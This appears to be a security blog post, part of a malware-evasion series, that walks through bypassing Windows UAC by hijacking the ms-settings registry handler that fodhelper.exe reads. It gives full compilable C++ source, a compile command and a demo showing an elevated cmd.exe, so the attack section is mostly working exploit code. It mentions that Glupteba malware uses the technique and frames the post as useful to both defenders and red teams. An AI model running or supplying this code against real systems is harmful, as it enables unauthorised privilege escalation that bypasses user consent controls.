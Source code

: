 ```yaml
---
title:  "Malware AV/VM evasion - part 17: bypass UAC via fodhelper.exe. Simple C++ example."
date:   2023-06-19 09:00:00 +0300
header:
  teaser: "/assets/images/101/2023-06-20_23-11.png"
categories:
  - malware
tags:
  - evasion
  - windows
  - malware
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!        

![av-evasion](/assets/images/101/2023-06-20_23-11.png){:class="img-responsive"}      

This post appeared as an intermediate result of one of my research projects in which I am going to bypass the antivirus by depriving it of the right to scan, so this is the result of my own research on the first step, one of the interesting UAC bypass trick: via `foodhelper.exe` with registry modification.      

### registry modification

The process of modifying a registry key has as its end objective the rerouting of an elevated program's execution flow to a command that has been managed. The most common misuses of key values involve the manipulation of `windir` and `systemroot` environment variables, as well as shell open commands for particular file extensions (depending on the program that is being targeted):      

- `HKCU\\Software\\Classes\<targeted_extension>\\shell\\open\command (Default or DelegateExecute values)`     
- `HKCU\\Environment\\windir`     
- `HKCU\\Environment\\systemroot`        

### fodhelper.exe

`fodhelper.exe` was introduced in Windows 10 to manage optional features like region-specific keyboard settings. It's location is: `C:\Windows\System32\fodhelper.exe` and it is signed by Microsoft:      

![av-evasion](/assets/images/101/2023-06-20_23-50.png){:class="img-responsive"}      

When `fodhelper.exe` is started, process monitor begins capturing the process and discloses (among other things) all registry and filesystem read/write operations.  The read registry accesses are one of the most intriguing activities, despite the fact that some specific keys or values are not discovered. Because we do not require special permissions to modify entries, `HKEY_CURRENT_USER` registry keys are particularly useful for testing how a program's behavior may change after the creation of a new registry key.       

`fodhelper.exe`, searches for `HKCU:\Software\Classes\ms-settings\shell\open\command`. This key does not exist by default in Windows 10:       

![av-evasion](/assets/images/101/2023-06-20_23-58.png){:class="img-responsive"}      

So, when malware launches `fodhelper` (as we know, a Windows binary that permits elevation without requiring a UAC prompt) as a Medium integrity process, Windows automatically elevates `fodhelper` from a Medium to a High integrity process. The High integrity `fodhelper` then tries to open a `ms-settings` file using the file's default handler. Since the malware with `medium integrity` has commandeered this handler, the elevated `fodhelper` will execute an attack command as a process with high integrity.      

### practical example

So, let's go to create PoC for this logic. First of all create registry key and set values - our registry modification step:     

```cpp
HKEY hkey;
DWORD d;

const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
const char* del = "";

// attempt to open the key
LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, KEY_WRITE, NULL, &hkey, &d);
printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : "successfully create reg key\n");

// set the registry values
stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : "successfully set reg value\n");

stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, strlen(del));
printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : "successfully set reg value: DelegateExecute\n");

// close the key handle
RegCloseKey(hkey);
```

As you can see, just creates a new registry structure in: `HKCU:\Software\Classes\ms-settings\` to perform UAC bypass.      

Then, start elevated app:     

```cpp
 // start the fodhelper.exe program
SHELLEXECUTEINFO sei = { sizeof(sei) };
sei.lpVerb = "runas";
sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
sei.hwnd = NULL;
sei.nShow = SW_NORMAL;

if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
} else {
  printf("successfully create process =^..^=\n");
}

return 0;
```

That's all.    

Full source code is looks like `hack.c`:    

```cpp
/*
 * hack.c - bypass UAC via fodhelper.exe
 * (registry modifications). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/19/malware-av-evasion-17.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : "successfully create reg key\n");

  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
    DWORD err = GetLastError();
    printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
  } else {
    printf("successfully create process =^..^=\n");
  }

  return 0;
}
```

### demo

Let's go to see everything in action. First, let's check registry:    

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](/assets/images/101/2023-06-20_23-08_1.png){:class="img-responsive"}      

Also, check our current privileges:     

```powershell
whoami /priv
```

![av-evasion](/assets/images/101/2023-06-20_23-09_2.png){:class="img-responsive"}      

Compile our `hack.c` PoC in attacker's machine:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/101/2023-06-20_23-16.png){:class="img-responsive"}      

Then, just run it in the victim's machine (`Windows 10 x64 1903` in my case):     

```powershell
.\hack.exe
```

![av-evasion](/assets/images/101/2023-06-20_23-08.png){:class="img-responsive"}      

As you can see, `cmd.exe` is launched. Check registry structure again:     

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](/assets/images/101/2023-06-20_23-09.png){:class="img-responsive"}      

As you can see, the registry has been successfully modified.    

Check privileges in our launched `cmd.exe` session:    

```powershell
whoami /priv
```

![av-evasion](/assets/images/101/2023-06-20_23-09_1.png){:class="img-responsive"}      

Then, run `Process Hacker` with Administrator privileges:     

![av-evasion](/assets/images/101/2023-06-20_23-12.png){:class="img-responsive"}      

and check properties of our `cmd.exe`:     

![av-evasion](/assets/images/101/2023-06-20_23-14.png){:class="img-responsive"}      

![av-evasion](/assets/images/101/2023-06-20_23-15.png){:class="img-responsive"}      

As you can see, everything is worked perfectly! =^..^=     

[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba) malware leveraging this method to first elevate from a Medium to High integrity process, then from High to System integrity via Token Manipulation.     

I hope this post spreads awareness to the blue teamers of this interesting bypass technique, and adds a weapon to the red teamers arsenal.      

[MITRE ATT&CK: Modify registry](https://attack.mitre.org/techniques/T1112/)    
[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-06-19-malware-av-evasion-17)       

> This is a practical case for educational purposes only.

Thanks for your time happy hacking and good bye!         
*PS. All drawings and screenshots are mine*       
